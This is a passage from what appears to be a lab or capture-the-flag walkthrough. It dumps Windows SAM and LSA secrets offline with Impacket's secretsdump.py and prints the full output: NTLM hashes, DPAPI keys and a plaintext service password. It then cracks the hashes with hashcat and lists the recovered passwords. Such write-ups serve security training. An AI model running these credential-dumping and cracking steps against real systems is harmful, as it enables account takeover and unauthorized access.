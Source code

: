 Then go to /Documents directory and you will see the copies of sam, security and system .save files
So we see 3 file then we need to run this command which will dump the hashes offline - Impacket's `secretsdump.py`
```c
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xd33955748b2d17d7b09c9cb2653dd0e8
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
jason:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
ITbackdoor:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
frontdesk:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
[*] NL$KM 
 0000   E4 FE 18 4B 25 46 81 18  BF 23 F5 A3 2A E8 36 97   ...K%F...#..*.6.
 0010   6B A4 92 B3 A4 32 DE B3  91 17 46 B8 EC 63 C4 51   k....2....F..c.Q
 0020   A7 0C 18 26 E9 14 5A A2  F3 42 1B 98 ED 0C BD 9A   ...&..Z..B......
 0030   0C 1A 1B EF AC B3 76 C5  90 FA 7B 56 CA 1B 48 8B   ......v...{V..H.
NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
[*] _SC_gupdate 
(Unknown User):Password123
[-] NTDSHashes.__init__() got an unexpected keyword argument 'ldapFilter'
[*] Cleaning up... 

```

We will create a file in /Documents directory in our attack box which will contain NT hashes for admin and other users except Guest, DefaultAccount and WDAGUtilityAccount
```c
nano hashestocrack.txt

31d6cfe0d16ae931b73c59d7e0c089c0
3c0e5d303ec84884ad5c3b7876a06ea6
c02478537b9727d391bc80011c2e2321
a3ecf31e65208382e23b3420a34208fc
58a478135a93ac3bf058a5ea0e8fdb71
```

We will crack them with hashcat:
``` c
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

c02478537b9727d391bc80011c2e2321:matrix                   
a3ecf31e65208382e23b3420a34208fc:mommy1                   
31d6cfe0d16ae931b73c59d7e0c089c0:                         
58a478135a93ac3bf058a5ea0e8fdb71:Password123  
```
